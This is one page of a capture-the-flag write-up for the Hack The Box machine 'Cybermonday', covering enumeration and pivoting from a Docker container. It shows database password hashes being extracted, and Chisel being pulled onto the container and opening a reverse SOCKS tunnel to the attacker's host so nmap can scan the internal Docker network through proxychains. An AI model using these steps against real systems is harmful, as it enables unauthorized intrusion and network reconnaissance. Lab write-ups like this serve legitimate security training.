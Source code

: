 # Where to Now?

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[**Where to Now?**](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

As you do all your regular enumeration you'll quickly realise (if you hadn't already) that this is a [[docker|Docker]] container. Sometimes you can break out of Docker containers, but in this case it seems the vulnerabilities are all covered. One interesting directory is `/mnt`. It looks like a home directory from the host system has been mounted here. You can see the user flag is tantalisingly close, but unfortunately we can't read it at the moment. What about `authorized_keys`? Well it already exists and isn't writeable, but it is readable.
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCy9ETY9f4YGlxIufn... john@cybermonday
```

Now we have a username we can try to use for [[ssh|`ssh`]] to the host. Trying some of the basic passwords to login doesn't get us anywhere so lets continue with our Docker box for now. We have a couple of things we can do from here. We can look through the source code of the entire Cybermonday shopping app, and we can use the MySQL credentials from the `.env` file to connect to the database. The container doesn't have `mysql` installed so you'll have to use a [[php|PHP]] script if you want to do that. With this method we can extract the password hashes for the admin user and your own account:
```
1 - admin - admin@cybermonday.htb - $2y$10$6kJuFazZ...
2 - dot - ctf@dotefekts.net - $2y$10$6xMtStxbhJkEf0...
```

We can try and use `hashcat` to determine the admin password but it doesn't look like it's going to work any time soon. Looking through the code doesn't get us any particularly useful information either. So what else can we do? Well, Docker containers means a Docker network, one that we can now scan to find more services that might not have previously been accessible.
We'll need to know what the IP range of our network is, but `ifconfig` and `ip` are both not available on the container, so instead we can use:
```bash
hostname -I

172.18.0.6
```

So now how do we scan this network? Enter [Chisel](https://github.com/jpillora/chisel) a network tunnel that supports reverse proxy. Download Chisel to both your own device and the container. (As HTB machines don't have an internet connection you will need to use `python3 -m http.server` and then `curl` in the container to download Chisel from your device.) Once you have `chisel` ready to go, you can start the server on your device:
```bash
./chisel server -p 8080 --reverse
```

and then connect to it from the container:
```bash
./chisel client <your ip>:8080 R:socks
```

Once the container is connected, Chisel will tell you the port on your device to use to send traffic through the proxy. Now that we have the proxy, we'll need a way to allow `nmap` to utilise it. For this we'll use [Proxychains](https://github.com/haad/proxychains). You may find `proxychains` is already installed if you're using Pwnbox or Parrot, if not you should be able to obtain it via `sudo apt install proxychains`. Once installed, open `/etc/proxychains.conf`. Comment out `strict_chain` and uncomment `dynamic_chain`. You may also want to enable `quiet_mode` if you don't want your console spammed with failed connections. Comment out `proxy_dns`, and finally add the `SOCKS` proxy from `chisel` to the proxy list at the bottom of the file. Now we're ready to go.

Personally I found that running `nmap` on one IP at a time was far quicker than having it scan a range. This was likely because I've misconfigured something or used a wrong flag, but in any case you can scan the network in whatever fashion you please. As `ICMP` packets can't be sent through the `SOCKS` proxy, you'll need to disable host detection for the scan and use the `Connect` method. As such your command should look something like this:
```
proxychains nmap -sT 172.18.0.1 -Pn -oG logs/docker_1_scan -v
```

Once you've finished scanning, you'll see a number of services we're already aware of, such as Redis, MySQL, and the webhook API. One service that we haven't been aware of so far is one on port `5000`. A quick Google tells us this is likely to be a Docker registry service. 

Next: [Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)